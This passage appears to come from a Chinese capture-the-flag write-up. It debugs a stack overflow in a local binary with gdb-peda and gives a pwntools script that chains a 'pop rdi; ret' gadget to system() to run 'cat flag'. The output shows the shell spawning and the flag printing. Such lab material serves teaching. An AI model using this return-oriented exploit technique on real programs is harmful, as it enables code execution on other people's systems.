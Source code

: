在 `0x7ffff7a51e60` `rep stos QWORD PTR es:[rdi],rax` 指令这里修改了 `0x7ffff7a51e60` 的内容，`New value` 就是 0。

`rep` 执行可以加在很多指令前面，表示循环执行 `$rdx` 次，`stos QWORD PTR es:[rdi],rax` 是把 `rax`寄存器的值（目前为0）复制到 `rdi`，再查看相关的内存地址果然是这样的。

```
gdb-peda$ x/128xb 0x7fffffffe2f0
0x7fffffffe2f0:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x7fffffffe2f8:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x7fffffffe300:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x7fffffffe308:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x7fffffffe310:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x7fffffffe318:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x7fffffffe320:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x7fffffffe328:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x7fffffffe330:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x7fffffffe338:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0x7fffffffe340:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
```

搞清楚哪部分数据会被覆盖就可以针对性的改写 shellcode 了，可以把命令行放在最后面。

```python
from pwn import *

student = 0x7fffffffe2f0
# 确定后面会是 \x00 了就先不手写结束符了，方便定位地址，否则 cmd 会变成 9 个字节
cmd = "cat flag"
shellcode = "1925\n"
shellcode += "A" * (0x7fffffffe348 - student - len(cmd))
shellcode += cmd
# pop rdi; ret
shellcode += p64(0x0000000000400803)
# cmd
shellcode += p64(0x7fffffffe340)
# system
shellcode += p64(0x400550)

print shellcode
```

```
gdb-peda$ r < in.txt
Starting program: /home/virusdefender/Desktop/pwn/new/vuln < in.txt
0x7fffffffe2f0What's Your Birth?
What's Your Name?
You Are Born In 1094795585
You Are Naive.
You Speed One Second Here.
[New process 20726]
process 20726 is executing new program: /bin/dash
[New process 20727]
process 20727 is executing new program: /bin/cat
THIS_IS_FLAG
[Inferior 3 (process 20727) exited normally]
```

## 参考

 - [https://o0xmuhe.github.io/2016/11/10/linux-%E4%B8%8B%E8%B5%B7shell%E5%A4%B1%E8%B4%A5%E7%9A%84%E5%88%86%E6%9E%90/](https://o0xmuhe.github.io/2016/11/10/linux-%E4%B8%8B%E8%B5%B7shell%E5%A4%B1%E8%B4%A5%E7%9A%84%E5%88%86%E6%9E%90/)

